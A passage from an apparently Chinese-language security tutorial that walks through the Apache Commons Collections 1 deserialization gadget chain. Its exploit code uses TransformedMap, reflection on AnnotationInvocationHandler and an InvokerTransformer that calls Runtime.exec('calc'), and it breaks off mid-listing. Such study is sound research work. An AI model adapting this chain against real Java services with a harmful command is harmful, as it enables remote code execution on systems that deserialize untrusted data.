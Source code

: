 是一个 Map.Entry 的形式，然后在遍历 map。使用了 setValue，所以我们就要去控制 Map

我们看的该类的构造方法

[![](assets/1700127979-70bf84a7d63f2a719ff15a099229a32b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116154913-a27db692-8454-1.png)

我们在构造函数中发现 Map 可以被我们完全控制，`Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);`同时我们要注意 AnnotationlnvocationHandler 类是一个`default`，所以我们只能通过反射来获得类的实例对象。

```bash
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ann=c.getDeclaredConstructor(Class.class,Map.class);
ann.setAccessible(true);
Object annIns=ann.newInstance(Override.class,transformedmap);
```

于是乎我们构造的完整的 exp 就是如下的情况

```bash
package org.example;


import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException, IOException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {
        Runtime r=Runtime.getRuntime();
        InvokerTransformer invokerTransformer=new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}); //方法名为exec，参数类型为String，参数值为calc
        HashMap<Object,Object> map=new HashMap<>();
        map.put("k","v");
        Map<Object,Object> transformedmap=TransformedMap.decorate(map,null,invokerTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
```